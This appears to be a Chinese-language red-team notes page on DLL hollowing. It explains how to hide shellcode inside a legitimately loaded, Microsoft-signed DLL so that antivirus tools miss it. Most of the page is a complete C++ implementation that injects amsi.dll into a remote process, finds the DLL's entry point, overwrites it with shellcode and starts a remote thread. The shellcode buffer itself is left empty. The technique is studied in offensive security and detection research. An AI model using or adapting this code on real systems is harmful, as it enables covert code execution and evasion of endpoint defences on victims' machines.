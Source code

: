 ```yaml
---
description: DLL Hollowing
---
```


# DLL Hollowing

## 简介

模块镂空\(dll hollowing\)也是一种shellcode注入技术，原理和思路与process hollowing类似，通过合法的模块信息来伪装恶意代码，虽然我们可以用远程dll注入来完整注入整个恶意dll，但此类注入往往比较容易检测，我们需要往受害者主机上传入一个恶意dll，这样杀毒软件可以通过监控入windows/temp/等目录实现对远程dll注入的拦截，而模块镂空就不会存在这样的风险，因为我们镂空的往往是一个带有微软签名的dll，为了防止进程出错，我们并不能直接镂空一个进程空间中已存在的dll，需要先对目标进程远程注入一个系统合法dll，然后再镂空它，这样我们就获得了一个和windows模块相关联的shellcode环境。

## 实现思路

1. 远程注入一个系统dll\(原理参考[CreateRemoteThrea](createremotethread.md)的dll注入\)
2. 获取该模块在目标进程中的虚拟地址
3. 定位模块的入口点
4. 使用shellcode复写入口点
5. 创建远程线程

## 代码实现

代码参考@mantvydasb

```text
#include <iostream>
#include <Windows.h>
#include <psapi.h>

char shellcode[] = "";

int main(int argc, char* argv[])
{
	
	
	TCHAR ModuleName[] = L"C:\\windows\\system32\\amsi.dll";
	HMODULE hModules[256] = {};
	SIZE_T hModulesSize = sizeof(hModules);
	DWORD hModulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T hModulesCount = 0;
	CHAR rModuleName[128] = {};
	HMODULE rModule = NULL;

	// inject a benign DLL into remote process
	//hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2924);

	LPVOID lprBuffer = VirtualAllocEx(hProcess, NULL, sizeof ModuleName, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(hProcess, lprBuffer, (LPVOID)ModuleName, sizeof ModuleName, NULL);
	PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	HANDLE dllThread = CreateRemoteThread(hProcess, NULL, 0, threadRoutine, lprBuffer, 0, NULL);
	WaitForSingleObject(dllThread, 1000);

	// find base address of the injected benign DLL in remote process
	EnumProcessModules(hProcess, hModules, hModulesSize, &hModulesSizeNeeded);
	hModulesCount = hModulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < hModulesCount; i++)
	{
		rModule = hModules[i];
		GetModuleBaseNameA(hProcess, rModule, rModuleName, sizeof(rModuleName));
		if (std::string(rModuleName).compare("amsi.dll") == 0)
		{
			break;
		}
	}

	// get DLL's AddressOfEntryPoint
	DWORD headerBufferSize = 0x1000;
	LPVOID peHeader = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
	ReadProcessMemory(hProcess, rModule, peHeader, headerBufferSize, NULL);

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)peHeader;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)peHeader + dosHeader->e_lfanew);
	LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)rModule);

	// write shellcode to DLL's AddressofEntryPoint
	WriteProcessMemory(hProcess, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);

	// execute shellcode from inside the benign DLL
	CreateRemoteThread(hProcess, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);

	return 0;
}
```

## 实现效果

![](../.gitbook/assets/image%20%289%29.png)

![](../.gitbook/assets/image%20%2852%29.png)

![](../.gitbook/assets/image%20%2869%29.png)

![](../.gitbook/assets/image%20%2864%29.png)

## LINKS

{% embed url="https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing" %}



{% embed url="https://ired.team/" %}




